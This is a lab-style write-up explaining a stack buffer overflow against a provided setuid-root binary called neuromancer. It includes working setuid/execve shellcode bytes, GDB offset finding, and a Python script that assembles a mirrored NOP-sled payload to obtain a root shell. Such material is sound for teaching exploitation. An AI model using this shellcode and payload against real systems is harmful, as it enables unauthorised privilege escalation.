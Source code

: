 Binary exploitation is about finding a vulnerability in a binary file and exploiting it. This is often done by exploiting a buffer overflowLinks to an external site., which results in us messing with the addresses to trick the binary into executing malicious code. In a buffer overflow, the buffer that we write to is overfilled so that we instead write outside of the allocated memory space.  When we can access memory locations outside of the allocated memory space, we can write and execute malicious code there.

For this hack, we were provided with a vulnerable binary that we could use for our binary exploitation.

For the vulnerability to exist, we also have to disable Address space layout randomization (ASLR). This will make sure that we have control over the addresses and able to perform the exploit. We have also compiled the file without the protection mechanisms that exists to check for possible vulnerabilities.

Regarding the exploit itself, we saw that neuromancer.out runs with root privileges (ls -la), yet is executable by us as a non-privileged user. Moreover, the program has an array that is written to with strcpy, without checking any bounds. We can confirm this by passing a long string of characters, e.g., print('A' * 200) in Python.

Overflowing the buffer will cause a segmentation fault. If we try this with the letter 'A' inside GDB, we can type info frame after the segmentation fault to confirm that

```
saved rip = 0x4141414141414141 // 64-bit instruction pointer
```

What happened here is that we wrote 'A' (0x41) outside the intended boundaries which overwrote the instruction pointer, among other things.

What if we could write our own instruction pointer to the system? To accomplish this, we must first find where exactly the instruction pointer is. We can do this by filling the buffer with some type of distinct pattern. In our case we'll use the alphabet.

```
alphabet = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
```

Now we stuff the buffer with this string:
```
print((alphabet + alphabet[::-1])*4)
```
[::-1] is a Python trick for reversing strings.

Feeding the above alphabet string into neuromancer inside GDB and checking info frame results in
```
saved rip = 0x4443424141424344
```
By consulting an ASCII tableLinks to an external site., we see that this corresponds to 'DCBAABCD.' This is the meeting point between two alphabets. This means that the string

```
'ABCDEFGHIJKLMNOPQRSTUVWXYZZYXWVUTSRQPONMLKJIHGFEDCBAABCDEFGHIJKLMNOPQRSTUVWXYZZYXWVUTSRQPONMLKJIHGFEDCBAABCDEFGHIJKLMNOPQRSTUVWXYZZYXWVUTSRQPONMLKJIHGFEDCBAABCD'
```
overwrote the entire instruction pointer. If we count the characters up until this point (len() in Python), we get 160. We need 160 bytes (characters) in total, including the entire instruction pointer.

We will now construct a payload to exploit neuromancer and obtain root privileges.

We're constructing a payload like this
```
[shellcode][NOP ... NOP][address]
^                           ^
|                           |
 ---------------------------
```
The idea behind this challenge is to overwrite the instruction pointer on the system when neuromancer executes. We will use this to control the flow of execution and point it towards our own code. A classic buffer overflow, in other words.

However, the palindrome check forces us to create a mirrored payload:

```
[sserdda][NOP ... NOP][shellcode][edocllehs][NOP ... NOP][address]
               ^                                             ^
               |                                             |
                ---------------------------------------------
```

Other than the mirroring, the palindrome does not pose any further obstacles. We can just assemble the regular payload and mirror with [::-1]. We'll also add NOP instructions leading up to our shellcode. They will make it easy for us to find an applicable return address compared to calculating an exact position.

Starting off, we'll import some useful libraries

```
import sys
import struct
```
Before moving on, we also need some form of shellcode to execute. A setuid(0) + execve(/bin/sh) shellcode from
http://shell-storm.org/shellcode/files/shellcode-77.phpLinks to an external site. should work:

```
shellcode = b'\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05'
```
This takes care of the [shellcode]. We can use the same [::-1] trick to get its mirror [edocllehs] later.

Now we have everything ready to go. Let's start by overflowing with the alphabet again and recording the memory address it prints out, such as

```
start = 0x7fffffffe440
```
Note that the leading zeros are truncated in the printout. This is the full 64-bit address: 0x00007fffffffe440. Let's also calculate our offset address (without double zeros):

```
address = start + 0xB # start + 11
```
This should take us into the NOP section before our shellcode.  This means the next instruction will be executed until something of value (our shellcode) is encountered. This technique is called a NOP-sled or NOP-slide.

We're now going to pack our address into a proper byte format.

```
address_little = struct.pack('Q', address)
address_big = struct.pack('>Q', address)
```
Note the endianness used. Buckeye runs little endian, meaning the address bytes are stored in reverse order. By also packing it in big endian, we end up with the mirror bytes required for the palindrome check.

We now have the [address] and [sserdda] parts of our exploit.

Let's figure out the [NOP ... NOP] sections now, the padding in other words. First, let's store the NOP instruction.

```
padchar = b'\x90'
```
\x90 is usually the 'numerical' value of the NOP instruction in x86 Assembly. So, how many NOP instruction do we need?

The total payload is 160 bytes. The shellcode is 48 bytes.

```
160 - (48*2) = 64.
```
Then, we have both addresses of 8 each.
```
64 - 16 = 48
```
So 24 NOP on each side, right? (48/2)

Not quite.

Remember the leading zeros in the memory addresses?

0x00007fffffffe440?

Double zeros = \x00 = null byte. We do not want null bytes in our exploit. These can, for example, signal the end of a string instead, but it depends on the system in question. But, what to do about them in the memory addresses?

Well, for our purposes we choose to do nothing. More specifically, we should realize that our payload will look like this

```
00007fffffffe440[...]044efffffff70000
```
Therefore, if we skip overwriting the last 2 bytes (0000) we can use null bytes already written in the instruction pointer!

This means we have 2 bytes less in our payload, i.e.

```
160 - 2 = 158 # Final required payload length
```
The final amount of NOP instructions is therefore
```
158 - 48 - 48 - 6 - 6 = 50 # The addresses without zeros take up 6 bytes
```
So, 25 NOP instructions for each section.

```
padding_length = 25
padding = padchar * padding_length
```
That's a lot of work for just two bytes! But all that's left now is to assemble the payload:
```
payload = address_big + padding + shellcode + shellcode[::-1] +
padding + address_little
```
And print it without null bytes so we can painlessly feed it to neuromancer:
```
sys.stdout.buffer.write(payload.strip(b'\x00'))
```
Now, we can execute neuromancer in the terminal (without GDB):
```
./neuromancer $(python3 exploit.py)
```
And our reward very likely a segmentation fault! This is not a problem, though. All we have to do is update our start address with whatever neuromancer printed for us and try again. Now our reward is the coveted root prompt!